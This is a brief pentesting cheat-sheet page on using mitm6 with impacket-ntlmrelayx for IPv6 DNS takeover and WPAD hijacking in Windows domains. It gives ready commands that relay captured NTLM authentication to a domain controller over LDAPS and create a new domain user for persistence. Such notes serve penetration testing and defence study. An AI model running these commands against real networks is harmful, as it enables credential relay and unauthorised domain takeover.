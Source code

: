 # mitm6

This tool helps exploit default configuration of Windows to take over default DNS server. This tool is designed to work
with `impacket-ntlmrelayx`.

```bash
sudo mitm6 -d DOMAIN
```

## IPv6 DNS takeover

### Information:

**WPAD (Windows Proxy AutoDiscovery) service** is one that any system in domain sends data to proxy to DC. This happens
when a Windows system is rebooted, sends out a broadcast message to identify the WPAD service IP. Using `ntlmrelayx` we
can host a fake WPAD service and hijack all requests. When a user attempts to connect to DC, it receives the NTLMv2
Hash, proxies to DC which successfully authenticates via the challenge-response and and `ntlmrelayx` on successful
exploitaion, will create a new user within the domain to establish persistence.

```bash
sc query winhttpautoproxysvc
SERVICE_NAME: winhttpautoproxysvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 4  RUNNING
                                (NOT_STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

```bash
# to perform MiTM
sudo mitm6 -d DOMAIN

$ sudo impacket-ntlmrelayx -6 -t [ldaps://DC_IP] -wh [fake-wpad.DOMAIN] -l [LOOT_DIR]
# successful will create a user on domain
```

## DNS takeover using delegate access

* [dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

## Additional Reading

* [blog.fox-it.com/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)